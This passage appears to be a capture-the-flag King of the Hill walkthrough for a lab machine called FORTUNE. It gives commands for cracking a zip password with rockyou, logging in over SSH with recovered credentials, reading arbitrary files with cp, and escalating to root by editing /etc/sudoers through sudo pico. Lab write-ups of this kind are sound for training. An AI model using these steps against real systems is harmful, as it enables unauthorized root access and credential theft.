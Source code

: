     `LFILE=/root/king.txt`<br />
    `echo "<YOUR USERNAME>" | cp /dev/stdin "$LFILE"`<br />
#### YOU ARE KING. NOW DEFEND YOUR TITILE.<br />
Free Tip: (You know you can read anyfile with this vuln, use your imagination.)<br />
    `LFILE=file_to_read`<br />
    `cp "$LFILE" /dev/stdout`<br />

#  Machine name: FORTUNE

Now this is new machine, Released very recently, <br /> 
And made it hard for me to post direct commands, Why?<br /> 
Heres why, In this machine, there's a thing called autogen script, that regenrates everything at every reset. That means direct credentials doesn't work anymore. So you have to follow the instructions and do everything manually.<br /> 
Let's Hack:<br /> 


1. Initial nmap scans revealed that theres a netcat port open at 3333. <br /> 
    ![image](https://user-images.githubusercontent.com/54495695/81497074-b9252800-92d9-11ea-9e85-e727773fc41c.png)
##### UPDATE, you can skip next 2 steps and directly use the command in Shortcut Note.
2. When we connect to it, It gives out a weird base64 hash, After fiddling around, I found that it is base data of a zip file, so we use this [Site](https://base64.guru/converter/decode/file).<br /> 
    Copy the base64 hash to this site, and it will generate a file named application.zip.<br /> 
    
3. Now when we try to open the file, The file needs a password, Just crack this file using fcrackzip and wordlist rockyou.txt.<br /> 
    `fcrackzip -v -u -D -p ~/wordlists/rockyou.txt application.zip`<br /> 
   Once you have the password, unzip it.<br /> 
   `unzip application.zip`<br /> 
  ##### Shortcut Note:  MAKE SURE TO DO THE FOLLOWING EDITS: 
  $IP = IP of KoTH box  <br />
  $location = address of your rockyou wordlist <br />
  Copy the hash in a file, <br />
  
  `cat file.txt | base64 -d  > test.zip; unzip -P  (fcrackzip -v -u -D -p $location/rockyou.txt test.zip | grep "pw" |awk '{print $5}') test.zip; cat creds.txt`
  
   You get a file named creds.txt, Inside it we have the login details of user named `fortuna`. Lets GO.<br /> 
4. Using the creds, <br /> 
    `ssh fortuna@<BOX IP>`<br /> 
5. Now that we have the shell, We can work on Privilage escalation.<br /> 
    After linpeas and basic test, I found that:<br /> 
        5.1 We as fortuna are in sudoers list.<br /> 
        5.2 And we also have `pico` in the `sudo -l` list.<br /> 
        
6. We can simply edit the `/etc/sudoers/` file to give us ALL permissions to run sudo.<br /> 
7. Using this command:<br /> 
    `sudo pico /etc/sudoers`<br /> 
   Replace `pico` in sudoers file with `ALL`.<br /> 
8. Now you can just do, `sudo su` and you are root.<br /> 
